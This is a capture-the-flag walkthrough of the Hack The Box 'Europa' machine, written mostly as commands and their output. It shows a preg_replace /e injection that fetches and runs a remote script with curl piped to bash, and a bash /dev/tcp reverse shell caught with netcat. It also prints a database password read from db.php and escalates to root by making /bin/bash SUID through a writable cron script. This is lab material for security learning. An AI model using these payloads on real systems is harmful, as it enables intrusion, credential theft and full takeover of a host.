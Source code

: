 ```yaml
---
layout: default
---
```


# Europa

# Enumeration

IP → 10.10.10.22

Port scan reported the following opened ports.

```bash
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack
80/tcp  open  http    syn-ack
443/tcp open  https   syn-ack
```

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- No UDP

### Port 80/443

### Headers

```bash
┌──(kali㉿kali)-[~/machines/linux/europa]
└─$ curl -I 10.10.10.22                     
HTTP/1.1 200 OK
Date: Fri, 01 Dec 2023 17:20:56 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Wed, 26 Jul 2017 22:36:04 GMT
ETag: "30a7-5554012ba5aba"
Accept-Ranges: bytes
Content-Length: 12455
Vary: Accept-Encoding
Content-Type: text/html
```

```bash
┌──(kali㉿kali)-[~/machines/linux/europa]
└─$ curl -k -I https://10.10.10.22:443
HTTP/1.1 200 OK
Date: Fri, 01 Dec 2023 17:21:29 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Wed, 26 Jul 2017 22:36:04 GMT
ETag: "30a7-5554012ba5aba"
Accept-Ranges: bytes
Content-Length: 12455
Vary: Accept-Encoding
Content-Type: text/html
```

We have and admin panel at `https://admin-portal.europacorp.htb/login.php` but don’t seem to be functional.

## admin-portal.europacorp.htb

Testing common injections we bypass the loggin panel.

There is an utility to create openvpn files. If we how the petition is send to the server we notice that regular expressions are being used

```bash
pattern=%2Fip_address%2F&ipaddress=10.10.14.5
```

# Foothold

### Testing a code injection

If we search for common regular expressions RCE in php we will find this blog [https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4) where we can see how to trigger a RCE when preg_replace is used.

```bash
pattern=%2Fa%2Fe&ipaddress=phpinfo()<SNIP>
```

Sending this request we will see the `phpinfo()` page, so we are executing php code.

### Gaining remote access

Sending the next request will give us a shell.

```bash
pattern=%2Fa%2Fe&ipaddress=system('curl+10.10.14.5/rev.sh|bash')<SNIP>
```

```bash
┌──(kali㉿kali)-[~/machines/linux/europa]
└─$ cat rev.sh              
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.5/443 0>&1"
```

```bash
┌──(kali㉿kali)-[~/machines/linux/europa]
└─$ nc -lvnp 443                    
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.22] 55616
bash: cannot set terminal process group (1441): Inappropriate ioctl for device
bash: no job control in this shell
www-data@europa:/var/www/admin$ whoami
whoami
www-data
```

# Privilege escalation

### Users in the machine

```bash
root:x:0:0:root:/root:/bin/bash
john:x:1000:1000:John Makris,,,:/home/john:/bin/bash
```

### DB inspection

We can see a password in the db.php file.

```bash
www-data@europa:/var/www/admin$ cat db.php 
<?php
$connection = mysqli_connect('localhost', 'john', 'iEOERHRiDnwkdnw');
if (!$connection){
die("Database Connection Failed" . mysqli_error($connection));
}
$select_db = mysqli_select_db($connection, 'admin');
if (!$select_db){
die("Database Selection Failed" . mysqli_error($connection));
}
```

Inital access to database.

```bash
www-data@europa:/var/www/admin$ mysql -ujohn -piEOERHRiDnwkdnw
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 61891
Server version: 5.7.18-0ubuntu0.16.04.1 (Ubuntu)

mysql> show tables
    -> ;
ERROR 1046 (3D000): No database selected
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| admin              |
+--------------------+
```

We have some md5 passwords from the database but we cannot crack them.

```bash
mysql> show tables;
+-----------------+
| Tables_in_admin |
+-----------------+
| users           |
+-----------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+---------------+----------------------+----------------------------------+--------+
| id | username      | email                | password                         | active |
+----+---------------+----------------------+----------------------------------+--------+
|  1 | administrator | admin@europacorp.htb | 2b6d315337f18617ba18922c0b9597ff |      1 |
|  2 | john          | john@europacorp.htb  | 2b6d315337f18617ba18922c0b9597ff |      1 |
+----+---------------+----------------------+----------------------------------+--------+
```

### Strange cron files /var/www/

In /var/www we can see some kind of cronjob

```bash
www-data@europa:/var/www/cronjobs$ ls -la           
total 12
drwxr-xr-x 2 root root 4096 Jun 23  2017 .
drwxr-xr-x 6 root root 4096 May 17  2022 ..
-r-xr-xr-x 1 root root  1find 32 May 12  2017 clearlogs
www-data@europa:/var/www/cronjobs$ cat clearlogs 
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```

```bash
www-data@europa:/var/www/cmd$ ls -la
total 8
drwxrwxr-x 2 root www-data 4096 May 17  2022 .
drwxr-xr-x 6 root root     4096 May 17  2022 ..
```

Lets write the a file called `logcleared.sh` and see of something is executed

```bash
www-data@europa:/var/www/cmd$ cat logcleared.sh 
#!/bin/sh

echo "test" > /tmp/pwn
```

If we check **tmp** file we can see that root has executed the script. Let’s escalate privileges finally.

```bash
www-data@europa:/var/www/cmd$ cat logcleared.sh 
#!/bin/sh

chmod u+s /bin/bash
```

```bash
www-data@europa:/var/www/cmd$ ls -la /bin/bash 
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
```

Bash is SUID and we can executed as root

```bash
www-data@europa:/var/www/cmd$ bash -p
bash-4.3# whoami
root
```